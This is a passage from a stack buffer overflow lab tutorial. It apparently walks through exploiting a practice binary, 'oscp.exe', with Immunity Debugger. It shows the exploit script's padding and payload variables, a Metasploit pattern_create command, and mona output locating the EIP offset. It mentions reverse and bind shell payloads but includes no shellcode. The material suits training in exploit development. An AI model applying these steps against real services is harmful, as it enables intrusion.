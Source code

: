 * `padding`: Often, additional padding is used to ensure that you have the exact right length to overwrite EIP and ensure that no extra data is inadvertently included. It’s empty here, but this can be used to align memory.

* `payload`: This is the malicious code (shellcode) that you want to execute once you’ve overwritten the EIP with the correct return address. It’s empty here, but in a real-world scenario, it would contain the shellcode (for example, a reverse shell payload or a bind shell).

* `postfix`: Any extra data that might be appended after the payload. It’s not used in this example but could be used to further manipulate the vulnerable program or to terminate the input.

So first we will generate a cyclic pattern of length: `number bytes that crashed the server + 400`. As far as I can tell, this extra 400 is needed to make sure that the full buffer has room to overwrite EIP and surrounding memory to prevent accidental truncation:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

We copy the resulting output into the `payload` variable of our `exploit.py` script:

```
...
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7 ... Db3Db4Db5Db6Db7Db8Db9"
postfix = ""
...
```

Now on Windows in Immunity Debugger we need to reopen the `oscp.exe` binary and run it again.

After that we need to run the exploit script:

```
python3 exploit.py
```

This script will help us determine how many bytes it took to overflow the buffer and __start__ overwriting EIP register. This variable is named __`offset`__. To find out in Immunity Debugger input the following `mona` command:

```
!mona findmsp -distance 2400
```

The resulting output is:

```
EIP contains normal pattern : 0x6f43396e (offset 1978)
```

This means out of 2400 total bytes we've generated and sent, the 1979th byte in the overall string was the first one to enter the EIP register. The following output:

```
ESP (0x0199fa30) points at offset 1982 in normal pattern (length 418)
EBP contains normal pattern : 0x43386e43 (offset 1974)
EBX contains normal pattern : 0x376e4336 (offset 1970)
```

Tells us that the first in line was EBX, with offset 1970, next was EBP with offset 1974, after which came EIP and finally ESP with offset 1982. Each of these has a space of 4 bytes and all of them were overwritten.
